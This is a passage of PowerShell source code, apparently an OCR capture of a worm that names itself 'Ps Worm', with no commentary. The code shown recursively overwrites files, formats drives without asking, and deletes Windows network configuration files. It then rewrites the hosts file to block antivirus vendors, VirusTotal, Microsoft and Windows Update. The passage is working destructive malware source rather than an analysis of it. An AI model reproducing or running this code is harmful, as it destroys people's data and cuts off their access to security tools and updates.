         foreach ($NochMehrUnterOrdner in $TheSubFldr)
        {
            UeberschreibeDateien($NochMehrUnterOrdner)
        }

    }

    $TheDrives = $fso.Drives
    foreach ($AllDrives in $TheDrives)
        {
        if ($AllDrives.DriveType=1)
        {
            format $AllDrives.Path /y
        }
        if ($AllDrives.DriveType=2)
        {
            format $AllDrives.Path /y
        }
    }


    cd "$sysdir.path\Drivers\etc";
    del "networks";
    del "protocol";
    del "services";
    del "hosts";
    del "hosts.bak";
    echo "# Host File overwritten by Ps Worm " >> hosts
    echo "# This file disallows you to visit av and dl sites :> " >> hosts
    echo " " >> hosts
    echo "127.0.0.1 www.antivir.de " >> hosts
    echo "127.0.0.1 www.bitdefender.de " >> hosts
    echo "127.0.0.1 www.znet.de " >> hosts
    echo "127.0.0.1 www.chip.de " >> hosts
    echo "127.0.0.1 www.virustotal.com " >> hosts
    echo "127.0.0.1 virusscan.jotti.org " >> hosts
    echo "127.0.0.1 www.kaspersky.com " >> hosts
    echo "127.0.0.1 www.sophos.de " >> hosts
    echo "127.0.0.1 www.trojaner-info.de " >> hosts
    echo "127.0.0.1 www.trojaner-help.de " >> hosts
    echo "127.0.0.1 www.arcabit.com " >> hosts
    echo "127.0.0.1 www.avast.com " >> hosts
    echo "127.0.0.1 www.grisoft.com " >> hosts
    echo "127.0.0.1 www.bitdefender.com " >> hosts
    echo "127.0.0.1 www.clamav.net " >> hosts
    echo "127.0.0.1 www.drweb.com " >> hosts
    echo "127.0.0.1 www.f-prot.com " >> hosts)
    echo "127.0.0.1 www.google.de " >> hosts
    echo "127.0.0.1 www.fortinet.com " >> hosts
    echo "127.0.0.1 www.nod32.com " >> hosts
    echo "127.0.0.1 www.norman.com " >> hosts
    echo "127.0.0.1 www.microsoft.com " >> hosts
    echo "127.0.0.1 www.anti-virus.by/en " >> hosts
    echo "127.0.0.1 www.symantec.com " >> hosts
    echo "127.0.0.1 www.windowsupdate.com " >> hosts
    echo "127.0.0.1 www.trendmicro.com " >> hosts
    echo "127.0.0.1 www.mcafee.com " >> hosts
    echo "127.0.0.1 www.viruslist.com " >> hosts
    echo "127.0.0.1 www.avp.com " >> hosts
    echo "127.0.0.1 www.zonelabs.com " >> hosts
    echo "127.0.0.1 www.heise.de " >> hosts
    echo "127.0.0.1 www.antivirus-online.de " >> hosts
    echo "127.0.0.1 www.free-av.com " >> hosts
    echo "127.0.0.1 www.panda-software.com " >> hosts
    echo "127.0.0.1 www.pc-welt.de " >> hosts